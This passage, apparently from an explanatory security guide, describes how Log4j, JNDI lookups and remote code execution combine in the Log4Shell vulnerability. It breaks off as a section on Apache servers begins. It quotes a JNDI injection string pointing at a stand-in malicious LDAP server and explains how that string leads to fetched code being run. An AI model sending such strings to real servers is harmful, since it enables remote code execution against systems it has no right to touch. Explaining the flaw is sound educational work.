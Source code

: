 #### **Role in Apache Servers**:

- Log4j integrates seamlessly into Apache server applications, helping monitor application activity.
- Logs requests like HTTP headers, IP addresses, or application errors.
- Developers configure **Log4j** with patterns to decide how logs should be formatted and where they are stored (file, console, etc.).

#### **How it contributes to the vulnerability**:

- Log4j has a feature to **process user-supplied data** dynamically using placeholders (`${}`).
- The JNDI feature in Log4j allows looking up external data, making it a target for abuse.
- Attackers inject malicious placeholders (`${jndi:...}`), triggering Log4j to fetch and execute remote code.

---

### **2. JNDI (Java Naming and Directory Interface)**

#### **What it is**:

- A Java API used to access naming and directory services.
- Example use cases:
    - Fetching configuration details from a remote directory.
    - Locating Java objects in an enterprise application.

#### **Role in Apache Servers**:

- JNDI allows applications running on Apache servers to dynamically fetch resources.
- Commonly integrated with directory services like **LDAP**, **DNS**, or other Java-based resource lookups.

#### **How it contributes to the vulnerability**:

- JNDI doesn’t validate or sanitize responses from external sources.
- When Log4j logs something like `${jndi:ldap://malicious-server}`, JNDI follows the request to the attacker's server.
- If the attacker’s server responds with Java bytecode, the application loads and executes it, leading to **Remote Code Execution**.

---

### **3. Remote Code Execution (RCE)**

#### **What it is**:

- A vulnerability type where attackers execute arbitrary code on a target machine.
- Enables attackers to:
    - Run commands.
    - Deploy malware.
    - Gain control of systems.

#### **Role in Apache Servers**:
